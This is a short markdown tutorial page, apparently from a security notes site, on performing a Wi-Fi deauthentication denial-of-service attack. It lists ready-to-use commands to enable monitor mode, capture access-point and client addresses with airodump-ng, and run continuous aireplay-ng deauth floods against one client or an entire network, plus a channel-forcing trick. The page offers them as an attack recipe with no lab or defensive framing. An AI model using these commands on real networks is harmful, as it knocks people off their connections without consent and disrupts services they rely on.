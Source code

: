 ```yaml
---
description: >-
  A Wi-Fi deauthentication attack is a type of denial-of-service attack that
  targets communication between a user and a Wi-Fi wireless access point.
---
```


# Deauth

{% hint style="warning" %}
You will need a wifi adapter that allows monitor mode
{% endhint %}

&#x20;_ **Monitor mode** allows a computer with a wireless network interface controller (WNIC) to monitor all traffic received on a wireless channel. Unlike promiscuous mode, which is also used for packet sniffing, monitor mode allows packets to be captured without having to associate with an access point or ad hoc network first. Monitor mode only applies to wireless networks, while promiscuous mode can be used on both wired and wireless networks._

## Monitor mode

{% hint style="warning" %}
run _<mark style="color:blue;">`ifconfig`</mark>_ to check the name of your network adapter, in my case it is wlan0
{% endhint %}

{% code lineNumbers="true" %}
```
# turn down the network adapter
ifconfig wlan0 down

# Changing into monitor mode
iwconfig wlan0 mode monitor

# turn up the network adapter
ifconfig wlan0 up

## run iwconfig to check if monitor mode is successfully enabled 
```
{% endcode %}

## Packet Capture

{% code lineNumbers="true" %}
```
# for all network 
airodump-ng wlan0 

# for a specified network
airodump-ng wlan0 --bssid [MAC]

```
{% endcode %}

{% hint style="info" %}
BSSID - MAC Address of an Access Point

Station - MAC Address of a Client&#x20;
{% endhint %}

## Deauth

{% code lineNumbers="true" %}
```
# on single client
aireplay-ng --deauth 0 -a [bssid] -c [station] wlan0

# on whole network
aireplay-ng --deauth 0 -a [bssid] wlan0
```
{% endcode %}

{% hint style="danger" %}
to change channel forcefully&#x20;

1\) _<mark style="color:blue;">ifconfig</mark> wlan0 down_

_2) <mark style="color:blue;">iwconfig</mark> wlan0 channel 3_

_3) <mark style="color:blue;">ifconfig</mark> wlan0 up_
{% endhint %}
